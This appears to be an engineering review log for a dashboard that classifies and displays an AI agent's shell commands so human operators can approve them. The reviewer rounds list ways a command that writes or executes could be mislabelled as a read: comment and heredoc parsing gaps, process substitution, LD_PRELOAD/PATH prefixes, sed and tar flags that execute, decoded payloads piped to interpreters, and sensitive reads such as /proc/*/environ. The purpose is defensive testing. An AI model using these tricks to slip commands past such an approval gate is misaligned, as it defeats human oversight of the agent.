| S5 | yes | The awk program is split into statements on `;`, `{`, `}` and newline outside string literals: a statement starting with `print`/`printf` that contains `>`/`>>` is a `write`, `|` is `unknown`; `c|getline` (no spaces) is caught too. | `test_f1_s5_awk_output_and_command_pipes` |
| S6 | yes | `git status`/`log`/`diff`/`show` stay `read` but set the new `repo-config` flag (they can run repository-configured programs); `git branch` and every other verb do not. | `test_f1_s6_git_reads_carry_repo_config_flag` |
| S7 | yes | `set` is `read` again with why `shell options` (`set -e`, `set -euo pipefail`, `set +x`, `set -- a b`, bare `set`); `unset` of a dangerous name and the other R5 rules are unchanged. The round-1 R5 test was updated because it asserted the old `set` behaviour. | `test_f1_s7_set_is_shell_options` |

Notes for the merge:

* `repo-config` is advisory only (F4 decides whether to refuse); it is not set
  for `git -c` (already `unknown`) or for non-read subcommands.
* The optional accuracy items from the review (`dig`/`host`/`nslookup`,
  `pvesm status|list`) were deliberately left out — they were marked "not
  required for merge".

`bash scripts/verify.sh` (pre-commit green):

```
1703 passed, 7 warnings in 339.88s (0:05:39)
```

(1686 on the branch before this round + 10 from the merged security Chunk H +
7 new S tests.)

### Reviewer notes

**Round 1 — 2026-11-07 — changes requested.**

Good work overall: the structure is clean, the module is total (never raises),
the API hook is pending-only as specified, the report is read-only, the
fixtures contain no real data, and the implementer notes are excellent. I
re-ran the full gate (see the end of this section). The problems below are all in
one direction: **a step is labelled `read` (or disappears) when the shell would
write or execute.** F1 is advisory, but F2 shows operators "all read" and F4
will auto-run on it, so this direction must be closed before merge. Every item
below needs a regression test (`test_f1_r<N>_<what>`) that fails on the current branch.

**Parser differentials (shell runs something the breakdown does not show)**

* **R1 — critical: `#` inside a word is treated as a comment.** `shlex`
  starts a comment at any `#` that begins a token *in its own state machine*,
  which includes mid-word after a path separator or letter run. Example:
  `ls /tmp/#dir; rm f` gives one step, `ls /tmp/`, and the `rm` vanishes; the
  same happens with `echo a#b; rm f`. Bash only starts a comment when `#` begins
  a word (after whitespace or an operator). Fix: set `commenters = ''` and strip
  comments yourself at word starts, outside quotes. Tests: both examples give
  two steps, the second `write`; `ls # rm f` is still one step.
* **R2 — high: substitutions in heredoc bodies, here-strings and redirect
  targets are never parsed.** `cat <<EOF` with a `$( … )` line in the body,
  `cat <<< "$( … )"` and `cat < "$( … )"` all come out as one `read` step, but
  the shell runs the substitution. Fix: for an **unquoted** heredoc delimiter,
  scan the body for `$(`/backticks and parse them as steps (context `heredoc`);
  quoted delimiters (`'EOF'`, `"EOF"`, `\EOF`) keep the body as data. Parse
  substitutions in every redirect target and here-string word.
* **R3 — high: process substitution is not parsed.** `cat <(rm -rf x)` is
  `unknown` only by accident (the redirect loses its target), and
  `diff <(ls a) <(ls b)` comes out as two `read` steps with `complete: false`.
  Parse `<( … )` / `>( … )` as nested steps (context `procsubst`), with the
  outer step's kind the worst of its own and the inner kinds. `>( … )` is
  always at least `write`-adjacent: classify it like a pipe sink.

**Verb table: write/execute paths labelled read**

* **R4 — high: `sed`.** `-i` is missed in combined short flags: `sed -Ei`,
  `sed -ri`, `sed -ni` and `sed -si` are all `read` today (and `-Ei` is a very
  common agent spelling). Treat any short-flag cluster containing `i` as
  in-place. `s` commands with flag letters, `s/x/y/ge` and `s/x/y/gw FILE`, and
  any delimiter (`s#a#b#e`, `s|a|b|w f`) must be caught. `-f/--file SCRIPT`
  → `unknown` (we cannot see the script).
* **R5 — high: environment and shell-state changes that alter later steps.**
  `LD_PRELOAD=… cat f`, `PATH=…:$PATH ls`, `env LD_PRELOAD=… ls`,
  `export PATH=…; ls` and `printf -v PATH …; ls` are all-read today, but each
  can make the following "read" execute arbitrary code. Rule: an assignment
  prefix, an `env NAME=…` argument, or an `export/declare/typeset/readonly/local`
  argument that sets a **dangerous name** (`PATH`, `LD_*`, `BASH_ENV`, `ENV`,
  `IFS`, `SHELLOPTS`, `BASHOPTS`, `PS4`, `PROMPT_COMMAND`, `PYTHON*`, `PERL5*`,
  `RUBY*`, `NODE_OPTIONS`, `GIT_*`) makes that step `unknown`, with why
  `changes how later commands run`. `set`, `unset`, `alias`, `hash`, `enable`,
  `trap`, `source`, `.`, `read`/`printf -v` into a dangerous name → `unknown`.
  Remove `export`, `unset` and `set` from `READ_VERBS` and give them a handler.
  Safe assignments (`FOO=1 ls`, `export LC_ALL=C`) stay `read`.
* **R6 — high: path-qualified verbs.** `classify` uses
  `os.path.basename(argv[0])`, so `/tmp/x/cat f` and `./cat f` are `read`. A
  verb containing `/` is classified by its basename **only** when its directory
  is one of `/bin`, `/usr/bin`, `/sbin`, `/usr/sbin`, `/usr/local/bin`,
  `/usr/local/sbin`; otherwise `unknown` (`runs a binary outside the system
  paths`). Apply the same rule to wrapper detection: a non-system
  `…/sudo`, `…/timeout`, `…/env` is not unwrapped.
* **R7 — medium: verb-specific gaps.**
  * `awk`: `system (` with whitespace, `print … | "cmd"` / `printf … | "cmd"`
    (pipe to a command), `"cmd" | getline` (already), `-f/--file PROG` →
    `unknown`; `-i`/`--include` stays `write`, and `@include` → `unknown`.
  * `find`: add `-fprint0` to the write flags.
  * `git`: `--output`/`--output=` on `log/diff/show` → `write`; `--ext-diff`
    and `--textconv` → `unknown` (they run configured programs).
  * `smartctl`: write/action flags win over read flags — `-s`, `--smart`, `-t`,
    `--test`, `-X`, `--abort`, `-o`, `--offlineauto`, `-S`, `--saveauto`,
    `--set` → `write`. Today `smartctl -a -t long /dev/sda` is `read`.
  * `ip`: `ip netns exec NS cmd…` is a wrapper. Unwrap it (context `netns NS`)
    instead of reporting `write`.
  * `sort --compress-program=…` → `unknown`; `tree -o FILE` → `write`;
    `dmidecode --dump-bin` → `write`; `systemd-analyze set-*` → `write`.
  * `nvidia-smi`: `read` only with no arguments or with `-q`, `-L`, `--query*`,
    `--format`, `-i`/`--id`; anything else → `unknown` (`-r`, `-pl`, `-pm`, … change the GPU).
    `vcgencmd`: `read` only for `measure_*`, `get_*`, `version`, `commands`; else `unknown`.
  * Follow/stream modes (`tail -f/-F/--follow`, `journalctl -f/--follow`,
    `docker logs -f/--follow`, `dmesg -w/--follow`, `docker events`): keep
    `read` but add flag `follows` (F4 will refuse it: such a command never ends).
* **R8 — medium: sensitive reads.** Add `shadow` (for `getent shadow`) and
  `environ` (for `/proc/*/environ`) to `SENSITIVE_HINTS`. Flag
  `sensitive-path` for `docker compose config` (it prints the interpolated
  `.env` values), `docker inspect`, and bare `env`/`printenv` (they print
  secrets inside containers reached via `pct`/`docker exec`).

**Live-data accuracy**

* **R9 — high (accuracy): decoded payloads fed to an interpreter are parsed as
  shell.** `echo <b64> | base64 -d | python3` decodes Python and splits it into
  dozens of shell "steps" (`print`, `import`, `def`, `try:` …). On the live DB
  this alone is ~600 of the ~2,700 unknown steps. Rule: only decode-and-parse
  when the pipeline's sink is a shell (`sh`, `bash`, …, including `sh -s`). For
  `python*`, `perl`, `ruby` and `node` sinks, emit **one** `unknown` step,
  why `decoded <lang> script (N lines)`, and put the decoded text on the step as
  `script` (F2 shows it in a collapsible block). Same for `python3 - <<'PY'`
  heredocs: one step, with the heredoc body as `script`.
* **R10 — medium (accuracy).**
  * Shell control builtins `:`, `exit`, `return`, `break`, `continue`,
    `wait` → `read` (why `shell control`).
  * `tar`: `-t`/`--list` (and the `t` letter in a bundled first argument such
    as `tf`) → `read`; `x`/`c`/`r`/`u`/`A`/`--delete` → `write`.
  * `install` → `write`.
  * `runuser [-u U] [--] cmd…` and `runuser -l U -c '…'` are wrappers like
    `sudo` / `su` (context `runuser`, `elevated: true`).
  * Shell functions: a definition (`f() { … }`, `function f { … }`) is not a
    step itself; its body steps stay. A later call to a function defined in the
    same command gets kind = worst of the body, why `calls function f`.
    Calling an undefined function stays `unknown`.
* **R11 — low: report scope.** The `requests` table also holds MCP calls
  (`status LIKE 'integration-%'`, with tool names as the "command"). Exclude
  them by default (add `--include-integration` to opt in) and print how many
  rows were excluded. Fixtures: prefer `192.0.2.x` over `10.0.0.1` (nit, optional).

**Measured on the live database (read-only, aggregates only, not committed):**
1,365 distinct commands; 8,893 steps: 60.9% read, 7.1% write, **32.0% unknown**;
40.6% of commands fully read. SSH rows only: 31.2% unknown. Top unknown causes:
decoded Python parsed as shell (R9), shell functions defined in agent scripts,
`curl`, interpreter calls, `bash`/`sh` script sinks, `runuser`, `exit`, `tar`.
After R9–R11 I will re-measure against the revised ≤ 20% target.

**Gate re-run by the reviewer:** pre-commit OK; `1 failed, 1663 passed` — the
failure is `tests/test_db_audit.py::test_audit_log_ordering`, a pre-existing
timing flake (second-resolution timestamps vs a 1.1 s sleep under load). It
passes 5/5 in isolation and F1 does not touch the audit code. Not yours to fix
in this chunk. The API hook, the cache (deep copy per call) and the report's
read-only open look correct.

**What to do:** fix R1–R11 on this branch (`feat/f1-breakdown`), one or a few
commits per item, add the regression tests, re-run `bash scripts/verify.sh`,
add a **Round 2** paragraph to Implementer notes (each R item: done / how /
test name), push, and stop.

**Round 2 — 2026-11-07 — nearly there; changes requested (S1–S7).**

All of R1–R11 are fixed and each has a regression test. I re-ran my round-1
probe set (52 cases) and every one now gives the right answer. Performance is
fine (100 kB of pipelines in 0.3 s; 400-deep `$(` and 3,000 parentheses stay
bounded). **Live accuracy now passes:** SSH rows only, 6,558 steps: 75.6% read,
9.3% write, **15.1% unknown** (18.2% since September), under the revised 20%.
The top remaining unknowns are legitimately opaque (`curl`, site-specific CLIs,
interpreters, scripts piped into a shell). A second probe set (68 cases) found
the following. As before, each needs a `test_f1_s<N>_<what>` that fails first.

* **S1 — critical: a command after a heredoc operator on the same line
  disappears.** `cat <<EOF; rm /tmp/x` followed by a body and `EOF` gives one
  `read` step (`cat`), and the `rm` is gone. This is the R1 class again: the
  heredoc scan has to resume parsing the rest of the *operator line* (here
  `; rm /tmp/x`) and skip only the body lines after it.
* **S2 — high: only the first heredoc on a line has its body scanned.**
  `cat <<A <<B` with an unquoted `$( … )` in B's body is `read`. Handle every
  heredoc on the line in order, each with its own quoting. (Partially quoted
  delimiters such as `E"O"F` and `\EOF` are correctly treated as data. Keep that.)
* **S3 — high: `>& FILE` and `&>> FILE` write files.** `ls >& /tmp/x` is `read`
  today: only a digit or `-` after `>&` is fd duplication; anything else is a
  file write (add `>&` with a non-numeric target to the write redirects).
  `ls &>> /tmp/x` is labelled `write` but sets `complete: false`. Parse `&>>` as
  one operator.
* **S4 — high: `tar` options that execute.** `--checkpoint-action=exec=…`,
  `-I PROG` / `--use-compress-program`, `-F` / `--info-script` /
  `--new-volume-script`, `--rsh-command` and `--rmt-command` → `unknown`
  (`tar runs a program`). `--to-command` is already right.
* **S5 — medium: `awk` output and command pipes.** `printf "x" >> "/tmp/x"`
  (a string between `printf` and `>>`) and `c|getline` (no spaces) are `read`.
  Rule: inside the awk program, `|` followed by optional space and `getline` →
  `unknown`. In any statement that starts with `print`/`printf` (statements
  split on `;`, `{`, `}` and newline), a `>`, `>>` or `|` outside a string
  literal → `write` (or `unknown` for `|`). This is deliberately conservative:
  `print ($1 > 2)` becomes `write`, which only costs a prompt.
* **S6 — low: `git` reads that can run repository config.** `git status`,
  `log`, `diff` and `show` can run programs configured in the repository being
  read (for example `core.fsmonitor`), so `git -C /some/dir status` in a
  directory the agent controls is not purely a read. Keep `read` but add flag
  `repo-config`. F4 will refuse it unless the directory is on an allowlist (F4's design).
* **S7 — low (correction of my R5): `set` is too broad.** `set -e`,
  `set -euo pipefail`, `set +x` and `set -- a b` cannot change how later
  commands resolve, so they should be `read` (why `shell options`). Keep
  `unset` of a dangerous name and the other R5 rules. On the live DB this
  removes ~21 needless unknowns.

**Optional accuracy (not required for merge):** `dig`/`host`/`nslookup` →
`read` (network query, why `DNS lookup`); `pvesm status|list` → `read`.

**Gate re-run by the reviewer:** pre-commit OK; `1686 passed` (matches your count).

**What to do:** fix S1–S7 on this branch, re-run `bash scripts/verify.sh`, add a
**Round 3** paragraph to Implementer notes, push, and stop. If S1–S7 are clean
I expect to merge F1 next round.

**Round 3 — 2026-11-07 — approved and merged.**

S1–S7 are fixed, each with a regression test; the R5 test change is justified
(it encoded the `set` behaviour my S7 corrected). I re-ran all three probe sets
(52 + 68 + 35 adversarial cases): every command that writes or executes is now
`write` or `unknown`, and the only all-read results are genuine reads, or reads
carrying the right flag (`sensitive-path`, `follows`, `repo-config`). Where the
engine is wrong, it errs toward caution (a heredoc terminator with a trailing
space is still treated as ending the body, so the next line is reported as a
write). Performance unchanged (100 kB in 0.26 s).

Live accuracy (read-only, SSH rows only): 6,558 steps, 75.9% read, 9.3% write,
**14.7% unknown**; 44.1% of commands fully read. Acceptance criteria met.

Gate re-run by the reviewer: pre-commit OK; `1703 passed`.

Carried forward to F2/F4: render the step `script` field (collapsible) and the
`follows`, `repo-config` and `sensitive-path` flags; F4 refuses `follows`,
`repo-config` (unless allow-listed), `sensitive-path` and `complete: false`.


---

## Chunk F2 — Reviewable approval card · slug `review-card` · dashboard UI

### Goal

Use the F1 breakdown so the operator can judge a 1–2 kB command in seconds.

### Changes (`dashboard/static/app.js`, `style.css`, `index.html`)

* **Headline line** at the top of every pending card (queue hero card, context
  panel `ctx-*`, session modal rows, the mobile drawer):
  `9 steps · 8 read · 1 write — systemctl restart nginx`. Colours: all-read =
  muted/neutral, any write = warning, any unknown = warning with "read it as
  written". Never green; the card must not look "pre-approved".
* **Step list** below the raw command (raw command stays available, collapsed
  by default when `summary.steps ≥ 4`):
  * grouped by `section`;
  * each step shows its `context` chain as a small prefix chip (`pct 103`, `sudo`, `decoded`);
  * `write` and `unknown` steps are expanded and highlighted; runs of `read`
    steps collapse to "6 read steps ▸";
  * flags shown as chips: `encoded`, `heredoc`, `nested ssh`, `sensitive path`, `redirect`.
* **Approve confirm for unknown/write-heavy commands:** if `summary.unknown ≥ 1`
  *and* the command is > 500 chars, the first Approve press scrolls to and
  briefly highlights the first unknown step; a second press approves. (No modal,
  no extra click for short or all-read commands.)
* Keyboard: the existing queue cursor shortcuts keep working; add `X` to toggle
  the raw command.
* Render the F1 additions that landed during review: a step's optional
  `script` field (decoded interpreter scripts, capped at 8 KiB) in a collapsed,
  escaped monospace block; and the flags `follows` ("runs until stopped"),
  `repo-config` ("git can run repository-configured programs"),
  `sensitive-path` and `encoded` as chips. `complete: false` shows a
  "could not fully parse; read the raw command" warning.
* History rows: a "breakdown" link that fetches `/api/requests/{id}/breakdown` on demand.
* `describeCmd` / `ctx-human` stay as they are for single-step commands.

### Tests to add

* Extend `scripts/ui_check.py` (or the existing UI test pattern) to load a fixture
  pending row with a breakdown and assert the headline and step list render, and
  that agent-controlled text is escaped (step `text`, `section`, `context` all go
  through `escapeHtml`). This XSS check is mandatory — section names are
  agent-controlled.
* `node --check app.js` (pre-commit).
* Screenshots for the reviewer: desktop + 400 px width, for a 9-step read-only
  command, a mixed command, and an encoded one. Attach them under Implementer notes.

### Compat impact

UI only.

### Acceptance criteria

- [ ] A 1 kB synthetic recon command with one `sed -i` shows the write step
      without scrolling, at desktop and phone width.
- [ ] Every agent-controlled string is escaped (test proves it).
- [ ] No regression in the existing card (risk line, anomaly, decoded preview, TTL).

### Implementer notes

**What I did**

* **`dashboard/static/app.js`** — the breakdown renderer and its four surfaces.
  The helpers are pure (a request row in, an HTML string out):
  `bdHeadlineHtml`, `bdBodyHtml`, `bdStepsHtml`, `bdFlagsHtml`, `bdStepHtml`,
  `bdBlockHtml`, `bdRowHeadlineHtml`.
  * **Headline** above the raw command on the queue hero card, a compact
    one-line copy on every queue row, a "Breakdown" section at the top of the
    context panel (which is the full-width mobile drawer below 768px), and on
    the session-modal SSH rows.
  * **Step list** under the command: grouped by `section`, each step's
    `context` chain as prefix chips (`pct 103`, `sudo`, `decoded`), write and
    unknown steps expanded and highlighted, runs of read steps collapsed to
    "N read steps ▸", the optional `script` field in a collapsed escaped
    monospace block, and `complete: false` shown as *"could not fully parse;
    read the raw command"*.
  * **Flags** as chips: `encoded`, `heredoc`, `nested ssh`, `sensitive path`,
    `redirect`, `runs until stopped` (`follows`) and `repo can run programs`
    (`repo-config`).
  * **Colours** never read as pre-approved: all-read is muted ink (not green),
    a write is amber, an unknown step adds *"read it as written"*.
  * **Raw command** stays available and is collapsed behind a "raw command ▸"
    toggle (and the `X` queue shortcut) when the breakdown has 4+ steps.
  * **Two-press Approve**: for a command over 500 chars that still has an
    unknown step, the first Approve scrolls to and briefly highlights that
    step and says so in a toast; the second press approves. Short or all-read
    commands are unchanged. It lives in `handleAction`, so it covers every
    Approve path for that request (hero, context panel, session modal).
  * **History** rows get a `breakdown` link that fetches
    `GET /api/requests/{id}/breakdown` and expands a row beneath it.
* **`dashboard/static/index.html`** — the two context-panel sections
  (`ctx-breakdown-head`, `ctx-breakdown-steps`) and an `app.js` /
  `style.css` cache-buster bump.
* **`dashboard/static/style.css`** — the breakdown styles in the ink language;
  `scripts/ui_check.py` stays clean (no new `!important`, tokens only,
  nothing below 11px).
* **`tests/fixtures/f2_harness.js` + `tests/test_f2_review_card.py`** — the
  tests load the real `app.js` in a stubbed browser context under node and
  render a fixture pending row, so they assert on the shipped code.

**Surprises and decisions**

* The queue is a hero card plus compact rows, and the context panel becomes a
  full-width drawer below 768px — those *are* the four surfaces the chunk
  names. There is no separate mobile component to change.
* `escapeHtml` is the only escaper, and the test proves it by spying on it:
  step text, section names, every context chip, the decoded `script` and the
  headline are all recorded through it, and an ``
  payload is asserted absent from the rendered HTML.
* A history breakdown row has to survive the 3-second table poll. The first
  version appended a `<tr>` once and the next poll removed it; the row is now
  rebuilt from `_bdHistory` on every render (verified by waiting two polls).
* The raw command block joins a multi-line script onto one line — that is the
  pre-existing `.jit-cmd-text` behaviour (3-line clamp), unchanged here. The
  step list is what makes a long script readable.
* A read step's `why` is usually just the verb (`uptime`), so it is hidden
  when it repeats the text; write/unknown whys always show.

**Deliberately not done**

* No backend change: pending rows already carry `breakdown` (F1) and
  `/api/requests/{id}/breakdown` already exists. No schema, API or gateway
  change.
* `describeCmd` / `ctx-human` are untouched, as are the risk line, the anomaly
  line, the decoded preview and the TTL.
* No new mobile-specific component (the existing responsive drawer covers it),
  and no change to the F1 engine or the security work merged from
  `feature-roadmap`.

**Screenshots** (desktop 1440 px, phone 400 px; all synthetic data)

* A 9+ step read-only recon command:
  
  
* A mixed read/write command (1 kB recon with one `sed -i`; the write step is
  visible without scrolling):
  
  
* An encoded command (`base64 -d | bash`, decoded steps):
  
  
* The decoded `script` field (`| python3`), for completeness:
  
  
* The context panel (the mobile drawer):
  

**Tests**

Eight tests in `tests/test_f2_review_card.py`, all `test_f2_*` — every one
failed on the reviewed commit (the renderer did not exist). They cover the
headline and step list rendering, the mixed write step, the unknown/incomplete
warnings, the flags, the `script` block and the XSS check, plus a static check
that the context-panel markup, the history link and the `X` shortcut exist.

`bash scripts/verify.sh` (pre-commit green):

```
1711 passed, 7 warnings in 341.19s (0:05:41)
```

(1703 before this chunk + 8 new tests.)


**Round 2 — 2026-11-08 — round 1 addressed.**

* **B1 — fixed.** `handleAction(id, action, opts)` now accepts
  `{confirmed: true}`, which skips the two-press check for callers that have
  already made the decision:
  * `confirmSessionOverride()` passes it — the operator has just granted an
    explicit session bypass, so the row it was opened from is cleared.
  * `bulkApprove()` does **not**. It approves everything that does not need
    review, leaves the long-unknown requests **selected**, and shows one
    toast: *"N requests have unknown steps — review and approve them
    individually."* Only the requests actually sent leave the selection.
  * Per-card buttons (hero, queue rows, context panel, History) and the
    session-modal buttons keep the two-press behaviour.
  * Because the queue re-renders on every poll, a kept selection is now drawn
    from `_ccSelectedIds` (checkbox class + `aria-checked`), so it no longer
    looks unselected after the next refresh.
  * Tests: `test_f2_b1_bulk_approve_keeps_unconfirmed_selected`,
    `test_f2_b1_session_override_approves_confirmed`,
    `test_f2_b1_card_approve_needs_two_presses`. The node harness now drives
    `bulkApprove` / `confirmSessionOverride` / `handleAction` with an
    `authFetch` and `showToast` spy, and sets `requestsData` from inside the
    context (it is a `let` in `state.js`, so a plain property assignment from
    outside the VM did not reach the app).
* **N1 — agreed and fixed.** `bdDecodedPreviewHtml()` skips the older DECODED
  block when a step already carries `script`, so the decoded source appears
  once, in the step's collapsed `decoded script` block. Used on the hero card,
  the context panel and the session modal. Test:
  `test_f2_n1_decoded_script_not_duplicated`; `script-desktop.png` /
  `script-mobile.png` were re-shot and now show the single block.

`bash scripts/verify.sh` (pre-commit green):

```
1715 passed, 7 warnings in 341.35s (0:05:41)
```

(1711 before this round + 4 new tests.)

### Reviewer notes

**Round 1 — 2026-11-08 — one fix requested (B1), then merge.**

